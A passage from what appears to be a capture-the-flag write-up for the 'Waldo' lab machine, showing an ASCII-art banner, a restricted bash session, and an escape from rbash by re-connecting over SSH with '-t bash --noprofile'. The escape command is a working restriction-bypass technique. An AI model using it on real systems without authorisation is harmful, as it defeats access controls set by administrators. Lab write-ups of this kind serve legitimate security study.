 ```
        @@@@@@&%&@@@%#&@%%@@@@/,,,,,,,,,,/@@@@@@@#/,,.*&@@%&@@@@@@&%#####%@@@@.
          .@@@###&@@@%%@(,,,%@&,.,,,,,,,,,,,,,.*&@@@@&(,*@&#@%%@@@@@@@@@@@@*   
            @@%##%@@/@@@%/@@@@@@@@@#,,,,.../@@@@@%#%&@@@@(&@&@&@@@@(           
            .@@&##@@,,/@@@@&(.  .&@@@&,,,.&@@/         #@@%@@@@@&@@@/          
           *@@@@@&@@.*@@@          %@@@*,&@@            *@@@@@&.#/,@/          
          *@@&*#@@@@@@@&     #@(    .@@@@@@&    ,@@@,    @@@@@(,@/@@           
          *@@/@#.#@@@@@/    %@@@,   .@@&%@@@     &@&     @@*@@*(@@#            
           (@@/@,,@@&@@@            &@@,,(@@&          .@@%/@@,@@              
             /@@@*,@@,@@@*         @@@,,,,,@@@@.     *@@@%,@@**@#              
               %@@.%@&,(@@@@,  /&@@@@,,,,,,,%@@@@@@@@@@%,,*@@,#@,              
                ,@@,&@,,,,(@@@@@@@(,,,,,.,,,,,,,,**,,,,,,.*@/,&@               
                 &@,*@@.,,,,,..,,,,&@@%/**/@@*,,,,,&(.,,,.@@,,@@               
                 /@%,&@/,,,,/@%,,,,,*&@@@@@#.,,,,,.@@@(,,(@@@@@(               
                  @@*,@@,,,#@@@&*..,,,,,,,,,,,,/@@@@,*(,,&@/#*                 
                  *@@@@@(,,@*,%@@@@@@@&&#%@@@@@@@/,,,,,,,@@                    
                       @@*,,,,,,,,,.*/(//*,..,,,,,,,,,,,&@,                    
                        @@,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                     
                        &@&,,,,,,,,,,,,,,,,,,,,,,,,,,,,&@#                     
                         %@(,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                      
                         ,@@,,,,,,,,@@@&&&%&@,,,,,..,,@@,                      
                          *@@,,,,,,,.,****,..,,,,,,,,&@@                       
                           (@(,,,.,,,,,,,,,,,,,,.,,,/@@                        
                           .@@,,,,,,,,,,,,,...,,,,,,@@                         
                            ,@@@,,,,,,,,,,,,,,,,.(@@@                          
                              %@@@@&(,,,,*(#&@@@@@@,     
                              
                            Here's Waldo, where's root?
Last login: Tue Jul 24 08:09:03 2018 from 127.0.0.1
-rbash: alias: command not found
```

It seems we are in a restricted bash shell since we can't run arbitrary comands:

```
monitor@waldo:~$ cd /
-rbash: cd: restricted
monitor@waldo:~$ ls
app-dev  bin
monitor@waldo:~$ cd bin
-rbash: cd: restricted
monitor@waldo:~$ ls
app-dev  bin
monitor@waldo:~$ ls bin
ls  most  red  rnano
monitor@waldo:~$ 
```

We can easily bypass rbash by skipping the profile of the user with the `-t bash --noprofile` arguments:

```
waldo:~/.ssh$ ssh -i .monitor monitor@127.0.0.1 -t bash --noprofile
monitor@waldo:~$ 
```
